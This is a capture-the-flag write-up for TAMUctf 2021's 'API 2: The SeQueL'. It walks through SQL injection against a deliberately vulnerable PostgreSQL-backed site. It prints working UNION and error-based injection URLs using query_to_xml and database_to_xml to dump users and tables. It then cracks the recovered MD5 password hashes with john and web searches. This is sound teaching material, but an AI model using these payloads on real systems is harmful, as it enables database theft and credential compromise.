 ```yaml
---
title: "TAMUctf 2021 API 2 : The SeQueL Solution"
slug: "api-2-the-sequel-writeup"
date: "2021-04-26 10:15:00.000000"
author_name: "Javantea"
author_email: "jvoss@altsci.com"
draft: false
toc: false
images:
---
```


TAMUctf 2021
[API 2 : The SeQueL](https://ctftime.org/task/15810) - 150 points

>    I just made my own SCP collection website. What do you think?

This is a simple SQL injection (SQLi) challenge that taught me some new tricks for SQL injection exploitation. I should have known these already, but that is how these sort of things work.

The website appears to be referencing some sort of fiction with initialism SCP. Since it's sometimes helpful, we search for SCP and find this: [http://www.scpwiki.com/object-classes](http://www.scpwiki.com/object-classes)

Our first SQLi that gives us something interesting using a simple `UNION`:

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%272%27,%273%27,%274%27,%275

Improved SQLi with a valid containment:

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%272%27,%27neutralized%27,%274%27,%275

Improved containment:

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%272%27,%27safe%27,%274%27,%275

Canonical SQLi is wrong because they use a %.

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20or%20id=%271

pq: invalid input syntax for integer: "1%" 

That explains or '1'='1 problem I was having intially because '1' does not equal '1%'.

Now we can do a canonical SQLi:

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20or%20%271%25%27=%271

Success

The website:

```
Codename : Default
ID : 1
SCP Containment : safe
default testing icon


Codename : Teddy
ID : 2
SCP Containment : euclid
To please the teddy, one must offer them a sacrifice of your finest tea


Codename : Traffic Cone #88192
ID : 3
SCP Containment : neutralized
We believe they appear from interdimensional rifts with no clear origin



Codename : Gnomial
ID : 4
SCP Containment : thaumiel
If encountered in the wild do not make eye contact. They only become more aggressive.


Codename : Ą̷̡̺̼̗͉̦̦̝̰̲͍͍͖͚̌̓̅̈͐̀̌̀̾̾͘̚̚̚͘̕d̴̻͓̫̭͎͙̮̲͖̭̖̬̦͉͗͒̈́̉̐͋͗̈́̑̄̉̍͑͘ͅd̸̛̙̮͚̩̦̘̗͛͛̓̂̀́̽̒͂͊́̚i̷̡̫͖͎͖͕͎͋̃̀̅̽̾͋͑̿́́͝͝ṡ̵̲̤̥̲̣͚̥̠̍ơ̸̼̒͊̏̅̀̽̿̊̅̈́͊̃̑̓͂͘ṅ̶̢̡͙̣̝̹͓̯̤͉̌̎͜ͅ
ID : 5
SCP Containment : apollyon
H̵̢̩̺̞̥̮̱̤̗̱̹͓̱͔͕̱̔̂̄̇̑̿̚͝Ė̵͍͔̈̂̑̃́̎̿͊͝͝ͅ ̴̢̛̣̦̽̃̿͠I̵̱͚͕͇̱̮͛͑̋́͐̔̓̑͂͘͠ͅS̷̪̝̲̫̝͙͓͒̇͂̍͗̍͐͜ ̷̪̹͕͙͍̭͎̖̺̘̈́̒̍Ȁ̷͚͇̘͓͓Ḽ̴̢̝̗̥̜̭̹̪͉͎̀̿̽R̴̛̗̾̌̂̌̉͊́͋̏E̷̛͉͍̫͆͂͐̍̏͆͒͊̌̚̕͜͝Ā̶̧̛̛̭̬͎̩̭̬̪̩̦̦͚͙̹̳̅̆͌̑͋̎̄͆̒͜͜ͅD̷̨̼̙̣̲̱͎̘̺͎͕̩͉̳̪̲͉̒̐͌̅͌͂͑͠Y̶̬͚̜̰͕̦̝̝͗͌͂͛́͊̈́̐̽̔͒̔͛͐̕͠ ̷͓͔͓̭̞̏̔́̄̋̍̎̽̎͒̈́́̇̊̕͠͠H̶̦̮̿̍͌̀̂̂͌̚̕Ẽ̶̢̛̦͖̖̪̖̬̜̭̄̎̋̎̄̓͒͌̄͌̽́̈R̷̨̢̡̨̖̩͈͖̺̤̳̜̼̱̭̩̤̈́̄̊̌̐̐̕̕͝ͅE̸̡̡̩͓͓̣̲̜͚̖̊̈́͊͒̓͘͜

```

https://shell.tamuctf.com/problem/50034/?name=A

So I am able to get every one individually and in a list..

From a quick web search I found the `version()` function which I should have known about. This tells us that we're working with PostgreSQL.

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%20%272%27,%20%27safe%27,version(),%275

PostgreSQL 11.11 (Debian 11.11-0+deb10u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit

All SQLi after here is now from this pretty cool SQLi write-up:
https://pulsesecurity.co.nz/articles/postgres-sqli


https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%20%272%27,%20%27safe%27,(CASE%20WHEN%20((SELECT%20CAST(CHR(32)||(SELECT%20query_to_xml(%27select%20*%20from%20pg_user%27,true,true,%27%27))%20AS%20NUMERIC)=%271%27))%20THEN%20%27a%27%20ELSE%20%27b%27%20END),%275

pq: invalid input syntax for type numeric: " <row xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <usename>postgres</usename> <usesysid>10</usesysid> <usecreatedb>true</usecreatedb> <usesuper>true</usesuper> <userepl>true</userepl> <usebypassrls>true</usebypassrls> <passwd>********</passwd> <valuntil xsi:nil="true"/> <useconfig xsi:nil="true"/> </row> <row xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <usename>yeetus</usename> <usesysid>16421</usesysid> <usecreatedb>false</usecreatedb> <usesuper>false</usesuper> <userepl>false</userepl> <usebypassrls>false</usebypassrls> <passwd>********</passwd> <valuntil xsi:nil="true"/> <useconfig xsi:nil="true"/> </row> " 

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%20%272%27,%20%27safe%27,(CASE%20WHEN%20((SELECT%20CAST(CHR(32)||(SELECT%20database_to_xml(true,true,%27%27))%20AS%20NUMERIC)=%271%27))%20THEN%20%27a%27%20ELSE%20%27b%27%20END),%275

pq: invalid input syntax for type numeric: " <scpfoundation xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <public> <experiments> <id>1</id> <codename>Default</codename> <containment>safe</containment> <description>default testing icon</description> <img>avatar</img> </experiments> <experiments> <id>2</id> <codename>Teddy</codename> <containment>euclid</containment> <description>To please the teddy, one must offer them a sacrifice of your finest tea</description> <img>teddy</img> </experiments> <experiments> <id>3</id> <codename>Traffic Cone #88192</codename> <containment>neutralized</containment> <description>We believe they appear from interdimensional rifts with no clear origin</description> <img>cone</img> </experiments> <experiments> <id>4</id> <codename>Gnomial</codename> <containment>thaumiel</containment> <description>If encountered in the wild do not make eye contact. They only become more aggressive.</description> <img>gnome</img> </experiments> <experiments> <id>5</id> <codename>Ą̷̡̺̼̗͉̦̦̝̰̲͍͍͖͚̌̓̅̈͐̀̌̀̾̾͘̚̚̚͘̕d̴̻͓̫̭͎͙̮̲͖̭̖̬̦͉͗͒̈́̉̐͋͗̈́̑̄̉̍͑͘ͅd̸̛̙̮͚̩̦̘̗͛͛̓̂̀́̽̒͂͊́̚i̷̡̫͖͎͖͕͎͋̃̀̅̽̾͋͑̿́́͝͝ṡ̵̲̤̥̲̣͚̥̠̍ơ̸̼̒͊̏̅̀̽̿̊̅̈́͊̃̑̓͂͘ṅ̶̢̡͙̣̝̹͓̯̤͉̌̎͜ͅ</codename> <containment>apollyon</containment> <description>H̵̢̩̺̞̥̮̱̤̗̱̹͓̱͔͕̱̔̂̄̇̑̿̚͝Ė̵͍͔̈̂̑̃́̎̿͊͝͝ͅ ̴̢̛̣̦̽̃̿͠I̵̱͚͕͇̱̮͛͑̋́͐̔̓̑͂͘͠ͅS̷̪̝̲̫̝͙͓͒̇͂̍͗̍͐͜ ̷̪̹͕͙͍̭͎̖̺̘̈́̒̍Ȁ̷͚͇̘͓͓Ḽ̴̢̝̗̥̜̭̹̪͉͎̀̿̽R̴̛̗̾̌̂̌̉͊́͋̏E̷̛͉͍̫͆͂͐̍̏͆͒͊̌̚̕͜͝Ā̶̧̛̛̭̬͎̩̭̬̪̩̦̦͚͙̹̳̅̆͌̑͋̎̄͆̒͜͜ͅD̷̨̼̙̣̲̱͎̘̺͎͕̩͉̳̪̲͉̒̐͌̅͌͂͑͠Y̶̬͚̜̰͕̦̝̝͗͌͂͛́͊̈́̐̽̔͒̔͛͐̕͠ ̷͓͔͓̭̞̏̔́̄̋̍̎̽̎͒̈́́̇̊̕͠͠H̶̦̮̿̍͌̀̂̂͌̚̕Ẽ̶̢̛̦͖̖̪̖̬̜̭̄̎̋̎̄̓͒͌̄͌̽́̈R̷̨̢̡̨̖̩͈͖̺̤̳̜̼̱̭̩̤̈́̄̊̌̐̐̕̕͝ͅE̸̡̡̩͓͓̣̲̜͚̖̊̈́͊͒̓͘͜</description> <img>crump</img> </experiments> <users> <id>1</id> <name>glenn</name> <password>9651cbc7c0b5fb1a81f2858a07813c82</password> <status>Making More Challenges</status> </users> <users> <id>2</id> <name>teddy</name> <password>e2ec2b31abe380b989ff057aef66377a</password> <status>PWNing Away</status> </users> <users> <id>3</id> <name>admin</name> <password>gigem{SQL_1nj3ct1ons_c4n_b3_fun}</password> <status>Away on Vacation</status> </users> </public> </scpfoundation> "

We got the solution:

gigem{SQL_1nj3ct1ons_c4n_b3_fun}

We found two extra passwords:
glenn 9651cbc7c0b5fb1a81f2858a07813c82
teddy e2ec2b31abe380b989ff057aef66377a

Let's crack them just in case..

john --format=raw-md5 --rules --wordlist=crack/ai3words_order.txt ~/altsci/tamuctf/sqlpw.txt

No luck. Let's try google.

https://www.google.com/search?client=firefox-b-1-d&q=9651cbc7c0b5fb1a81f2858a07813c82

echo -n 'star trek' |md5sum 
9651cbc7c0b5fb1a81f2858a07813c82  -

The first password for glenn is 'star trek', cool.

https://www.google.com/search?q=e2ec2b31abe380b989ff057aef66377a&client=firefox-b-1-d&sxsrf=ALeKk005ipY2W_BV9BhG7w-HA46hrLO30g%3A1619338481194&ei=8SSFYPqXC4Gv0PEPl76aiAo&oq=e2ec2b31abe380b989ff057aef66377a&gs_lcp=Cgdnd3Mtd2l6EAM6CggjEK4CELADECdQvqMDWJixA2ClswNoAXAAeACAAWOIAekBkgEBNJgBAKABAqABAaoBB2d3cy13aXrIAQHAAQE&sclient=gws-wiz&ved=0ahUKEwi61MT3-ZjwAhWBFzQIHRefBqEQ4dUDCA0&uact=5

echo -n 'teddy bear' |md5sum 
e2ec2b31abe380b989ff057aef66377a  -

The first password for teddy is 'teddy bear', cool.

Change your passwords folks. Don't use simple passphrases.
